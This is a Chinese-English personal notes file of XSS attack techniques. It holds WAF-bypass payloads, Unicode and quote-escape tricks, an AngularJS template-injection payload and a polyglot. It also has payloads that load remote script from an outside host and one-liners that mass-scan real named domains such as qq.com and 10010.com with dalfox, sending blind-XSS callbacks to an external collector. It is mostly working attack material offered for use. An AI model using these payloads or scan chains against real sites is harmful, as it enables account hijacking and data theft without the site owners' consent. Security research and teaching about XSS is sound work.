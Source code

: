 # XSS

## 2021.2.13 Fuzz技巧

![image-20210213152848214](XSS.assets/image-20210213152848214.png)

非常不错,包含了xml和xss的许多payload

```
npm install -g pown
pown modules install @pown/dicts
pown dicts -p xss >  xss.doc
ls -lah xss.doc
```



基于javascript下的绕过:

原理:

```
B=1
B["constructor"]["constructor"]("alert(1)")();
```

不同语言版:https://t.co/cqmLwZmuo5?amp=1





## Bypass

![5934BE93A312FA7C13363F1A4C187775](XSS.assets/5934BE93A312FA7C13363F1A4C187775.png)



>Reflected XSS Akami Waf Bypass in Redirect Parameter using HTTP Parameter Pollution and Double Url Encode:

```
/login?ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529
```



## 执行弹框的方法

```
<Img Src=//X55.is OnLoad=import(src)>
<Img+Src=//X55.is+OnLoad=import(src)>#confirm(document.domain)//
```



## 遇到ASP.net类型可以尝试unicode绕过

```
Xss in asp pages reflected inside span and < blocked.
Payloads:
%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```





### unicode绕过checklist:

https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html



![EdH22_MXsAAYcKK](XSS.assets/EdH22_MXsAAYcKK.jpeg)

```
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
```





如果允许但引号逃逸,闭合可以采用运算来避免错误。

```
<, > ==> REMOVED
'-anything()-' ==> '-anything-'
'-alert()-' ==> REMOVED
'-setTimeout``-' = allowed

Final Payload:
'-setTimeout`prompt\u0028document.domain\u0029`-
```





### 双引号被转义的时候逃逸

```
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>

Works in cases where double quotes are escaped 

<xhzeem/x=\" ....>

```



## alert(1) 绕过技巧

```
window.alert?.() and (window?.alert)`` 
```



## 挖掘XSS技巧

### 组件漏洞

an AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29

Payload:

```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```



## Dorks

```
1.iconUrl=XSS
```



## 探测XSS的payload

Polyglot payload:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```





## one-liner

```
python3 paramspider.py --domain qq.com -s TRUE -e js,css,woff,ttf,svg --output hackerone.txt

cat output/hackerone.txt| deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' |dalfox pipe --silence -b 360cdn.xss.ht | cut -d " " -f2

cat output/baidu.txt | deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' | dalfox pipe --silence -b 360cdn.xss.ht

cat src.txt| xargs -I {} python3 paramspider.py --domain {}  -s TRUE -e js,css,woff,ttf,svg,png,gif,jpg,PNG --output ./src/{}.txt

cat src.txt| xargs -I {} python3 paramspider.py --domain {}  -s TRUE -e 3g2,3gp,7z,aac,abw,aif,aifc,aiff,arc,au,avi,azw,bin,bmp,bz,bz2,cmx,cod,csh,css,csv,doc,docx,eot,epub,gif,gz,ico,ics,ief,jar,jfif,jpe,jpeg,jpg,m3u,mid,midi,mjs,mp2,mp3,mpa,mpe,mpeg,mpg,mpkg,mpp,mpv2,odp,ods,odt,oga,ogv,ogx,otf,pbm,pdf,pgm,png,pnm,ppm,ppt,pptx,ra,ram,rar,ras,rgb,rmi,rtf,snd,svg,swf,tar,tif,tiff,ttf,vsd,wav,weba,webm,webp,woff,woff2,xbm,xls,xlsx,xpm,xul,xwd,zip,zip,apk --output ./src/{}.txt

cat all_jd_sub_domain.txt|deduplicate|httpx -status-code -mc 200,301 -silent| awk '{print $1}' > 200_sub_jd.txt

cat src.txt| xargs -I {} | &&  cat ./src/*.txt | deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' >  src_url.txt && python3 removeDepeat.py && cat remove_src_url.txt | dalfox pipe --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt

xargs -P 3 -I {} paramspider --domain {}  -s TRUE -e js,css,woff,ttf,svg,png,gif,jpg,PNG,apk,mp4,mp3,jpeg --output ./src/{}.txt
dalfox file 200_all_url.txt --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt


dalfox pipe --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt
dalfox file all_url.txt --mass-worker 50 -b 360cdn.xss.ht  --deep-domxss   -o final_xss.txt
dalfox file all_url.txt --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt

dalfox  file 1.txt -S --mining-dict --only-discovery --timeout 2 --waf-evasion --mass-worker 100 -b 360cdn.xss.ht  -o final_xss_4.txt

dalfox  file 1.txt --silence  --skip-mining-all  --timeout 2 --waf-evasion --mass-worker 100 -b 360cdn.xss.ht  -o final_xss_4.txt

# Test notifier

1.subfinder -d 10010.com | httpx | tee 10010.txt
2.echo "http://m.client.10010.com" | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars";done | tee 10010.out
```



## 收集URL

```
gospider -s "https://passport.haodf.com/" --cookie "" -o output -c 10 -d 1 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|svg)" 
```





## XSS相关的网站

比较安全:`https://xsshunter.com/` e
